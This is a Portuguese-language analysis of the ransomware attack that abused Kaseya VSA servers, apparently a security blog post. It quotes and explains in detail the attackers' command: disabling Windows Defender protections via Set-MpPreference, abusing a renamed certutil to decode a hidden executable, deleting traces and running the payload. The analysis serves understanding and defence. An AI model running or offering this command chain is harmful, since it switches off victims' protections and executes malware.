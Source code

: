 O ataque, inicialmente, explorou falhas como _bypass_ de mecanismo de autenticação, _upload_ de arquivos arbritários e até injeção de código nos servidores VSA.

A partir daí, um prodecimento foi agendado para enviar uma atualização falsa a todos os computadores gerenciados pelos servidores afetados. Tal atualização incluía ações de desabilitar proteções e download/desofuscação e execução de um [ransomware](https://www.kaspersky.com/resource-center/threats/ransomware) da gang [REvil](https://en.wikipedia.org/wiki/REvil), que opera o chamado _Ransomware-As-A-Service_, ou seja, eles vendem ransomware como um serviço. Abaixo temos parte dos comandos que foram executados nos clientes afetados:

```
execFile(): Path="C:\windows\system32\cmd.exe", arg="/c ping 127.0.0.1 -n 7615 > nul & C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe Set-MpPreference -DisableRealtimeMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend & copy /Y C:\Windows\System32\certutil.exe C:\Windows\cert.exe & echo %RANDOM% >> C:\Windows\cert.exe & C:\Windows\cert.exe -decode c:\kworking1\agent.crt c:\kworking1\agent.exe & del /q /f c:\kworking1\agent.crt C:\Windows\cert.exe & c:\kworking1\agent.exe", flag=0x00000002, timeout=0 seconds
```

Analisando o bloco acima:

-   _execFile(): Path=”C:\\windows\\system32\\cmd.exe”, arg=”/c ping 127.0.0.1 -n 7615 > null”_

A primeira parte do código invoca o _cmd.exe_ e passa como argumentos primeiramente o comando _ping_ para o localhost (127.0.0.1), especificando exatamente 7615 pacotes a serem enviados e descartando quaisquer saídas textuais (_\> null_). O objetivo desse comando _ping_ provavelmente é o de causar um atraso no processo de decodificação e execução do _dropper_ e do _ransomware_. Essa abordagem pode ser útil em alguns casos para enganar os mecanismos de defesa (que ainda estão ativos).

-   _C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe_ **_Set-MpPreference_** _-_**_DisableRealtimeMonitoring_** _$true -_**_DisableIntrusionPreventionSystem_** _$true -_**_DisableIOAVProtection_** _$true -_**_DisableScriptScanning_** _$true -_**_EnableControlledFolderAccess_** _Disabled -_**_EnableNetworkProtection_** _AuditMode -Force -_**_MAPSReporting_** _Disabled -_**_SubmitSamplesConsent_** _NeverSend_

A seguir, ainda como argumento passado ao _cmd.exe_, é chamado o _powershell.exe,_ que executa o comando [**_Set-MpPreference_**](https://docs.microsoft.com/en-us/powershell/module/defender/set-mppreference?view=windowsserver2019-ps), que permite alterar configurações do Windows Defender. Para ele são passadas as opções a seguir:

-   \-**DisableRealtimeMonitoring** $true: Desabilita a proteção em tempo real.
-   \-**DisableIntrusionPreventionSystem** $true: desabilita proteção de rede para vulnerabilidades conhecidas.
-   \-**DisableIOAVProtection** $true: Desabilita a verificação de arquivos e anexos baixados.
-   \-**DisableScriptScanning** $true: desabilita a verificação de _scripts_ durante a verificação de _malware._
-   \-**EnableControlledFolderAccess** Disabled: Desabilita a proteção de arquivos contra _ransomware_ e outras ameaças.
-   \-**EnableNetworkProtection** AuditMode -Force: Desabilita a proteção contra acesso a domínios potencialmente perigosos e maliciosos, como domínios utilizados por campanhas de phishing, servidores de comando e controle e até mesmo de controle de _ransomware._
-   \-**MAPSReporting** Disabled: Desabilita o envio de informações ao [_Microsoft Active Protection Service (MAPS_](https://www.microsoft.com/security/blog/2015/01/14/maps-in-the-cloud-how-can-it-help-your-enterprise/)_)_
-   \-**SubmitSamplesConsent** NeverSend: Desabilita o envio automático de _samples_ para a Microsoft.

